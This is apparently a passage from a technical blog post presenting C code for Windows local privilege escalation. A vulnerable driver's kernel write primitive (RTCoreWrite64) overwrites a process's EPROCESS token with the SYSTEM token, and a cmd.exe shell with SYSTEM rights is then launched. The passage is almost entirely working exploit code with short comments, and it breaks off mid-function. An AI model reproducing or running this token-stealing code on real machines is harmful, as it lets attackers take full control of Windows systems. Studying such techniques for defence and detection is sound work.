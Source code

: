 ```c
BOOL GetSystem(DWORD Pid, WINDOWS_VERSION WinVersion) {
	ULONG_PTR SystemToken;
	ULONG_PTR TargetEprocess;
	ULONG_PTR TargetToken;
	ULONGLONG TargetTokenReferenceCount;
	ULONG_PTR NewToken;
	DWORD TargetPid = 0;


	if (Pid == 0) {
		TargetPid = GetCurrentProcessId();
	}
	else {
		TargetPid = Pid;
	}

	SystemToken = GetTokenPointer(lpInitialSystemProcess, WinVersion);
	// The Token value in EPROCESS is combination of pointer and Reference count
	// Least significat 4 bits are reserved for the reference count
	// Zeroing-out those bits will get us the actual pointer to the Token
	SystemToken = SystemToken & ~15;

	TargetEprocess = GetEprocessByPid(TargetPid, WinVersion);

	TargetToken = GetTokenPointer(TargetEprocess, WinVersion);

	// Get the target process Token reference count
	TargetTokenReferenceCount = TargetToken & 15;
	
	// Combine the system token pointer with the reference count of the target process
	NewToken = SystemToken | TargetTokenReferenceCount;

	// Overwrite the target process Token value
	if (!RTCoreWrite64(TargetEprocess + TOKEN_OFFSET[WinVersion], NewToken)) {
		PRINT_ERROR(L"[-] Couldn't write new Token\n");
		return FALSE;
	}
	return TRUE;
}
```

If we want to pop into a CMD shell with SYSTEM privileges, it’s quite easy. Just start a new cmd.exe process :) It will inherit the token of the parent, therefore it will have the same privileges.  

```c
BOOL GetSystemCMD(WINDOWS_VERSION WinVersion) {
	STARTUPINFOA StartupInfo;
	PROCESS_INFORMATION ProcessInformation;

	ZeroMemory(&StartupInfo, sizeof(StartupInfo));
	ZeroMemory(&ProcessInformation, sizeof(ProcessInformation));

	StartupInfo.cb = sizeof(StartupInfo);

	if (!GetSystem(0, WinVersion)) {
		PRINT_ERROR(L"[-] Couldn't get system..\n");
		return FALSE;
	}

	if (!CreateProcessA("C:\\Windows\\System32\\cmd.exe", NULL, NULL, NULL, FALSE, 0, NULL, NULL, &StartupInfo, &ProcessInformation)) {
		PRINT_ERROR(L"[-] Couldn't create cmd.exe process!\n");
		return FALSE;
	}
```